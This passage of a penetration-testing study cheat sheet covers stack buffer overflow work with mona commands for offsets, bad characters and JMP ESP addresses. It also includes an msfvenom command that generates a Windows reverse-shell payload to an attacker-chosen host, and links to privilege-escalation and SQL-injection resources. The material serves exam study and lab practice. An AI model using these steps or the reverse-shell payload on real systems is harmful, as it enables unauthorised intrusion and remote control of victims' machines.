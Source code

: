 * Set configuration folder:
    ```
    !mona config -set workingfolder c:\mona\%p
    ```

* Finding offset (application crashed):
    ```
    !mona findmsp -distance <same value used on pattern_create.rb>
    ```
    Look for this line: **EIP contains normal pattern : ... (offset <THE_VALUE_YOU_WANT>)**. This value should be copied on `offset` variable;

* Generate bytearray with badcodes:
    ```
    !mona bytearray -cpb "\x00..."
    ```

* Compare bytearray file with Stack:
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>
    ```

* Find jump point without badchars:
    ```
    !mona jmp -r esp -cpb "\x00..."
    ```
    **Go to 'Window > Log Data' and get one of all available address.** This value should be copied on `retn` variable (inverse)


### Metasploit

* Generate pattern:
    ```
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number found on fuzzer more ~400 bytes>
    ```

* Generate payload:
    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00..." -f py -v <output variable name>
    ```





### References

* Payload all the things: https://github.com/swisskyrepo/PayloadsAllTheThings
* GTFOBins: https://gtfobins.github.io/gtfobins/nmap/
* G0tMilk: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* Windows XP SP1 privesc: https://sohvaxus.github.io/content/winxp-sp1-privesc.html
* SMB Share Enum: https://blog.codecentric.de/en/2017/11/penetration-test-training-lazysysadmin-1-vanilla-style/
* SQL Server attack tips: https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
* ColdFusion attack: https://chennylmf.medium.com/hackthebox-walkthrough-arctic-e0ae709fc121
* Ethernal Blue: https://redteamzone.com/EternalBlue/
* Webmin: https://netosec.com/pwnos-vulnhub-walkthrough/
* TFTP: https://dominicbreuker.com/post/htb_dropzone/ (see Public 111)
* SQLi Payloads:
    * Commands to test: http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
    * MS SQL Client on Kali: https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell/
    * How to use xp_cmdshell: https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/
* Exploit-db bin sploits: https://github.com/offensive-security/exploitdb-bin-sploits